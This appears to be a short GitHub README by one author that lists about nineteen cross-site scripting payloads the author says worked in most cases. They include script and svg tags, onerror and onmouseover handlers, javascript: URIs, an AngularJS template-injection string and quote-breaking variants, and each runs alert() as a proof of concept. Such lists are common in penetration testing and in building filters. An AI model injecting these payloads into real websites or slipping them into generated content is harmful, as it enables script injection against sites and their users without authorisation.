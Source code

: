 # Most common working payloads
## This is list of XSS Payloads that worked in most cases for me

```html
"><svg/onload=alert(1)>
"><script>alert(1)</script>
<div onmouseover="alert(document.domain);">
<IMG SRC="javascript:alert('XSS');">
</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
"><img src=x onerror=alert(1)>
{{constructor.constructor(`alert(1)`)()}}
<noscript><&amp;amp;amp;amp;lt; title=" &lt;/noscript&gt; &lt;img src= x onerror =alert(document.domain)//&quot;&gt;
"><div onmouseover="alert(1);">
<BODY onload=alert(1)>
<BASE HREF="javascript:alert('XSS');//">
"></iframe><script>alert(123)</script>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg onLoad=alert(document.domain)>
/;alert(1)//
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)
http://www.<script>alert(1)</script .com
```

## by Kira Reys
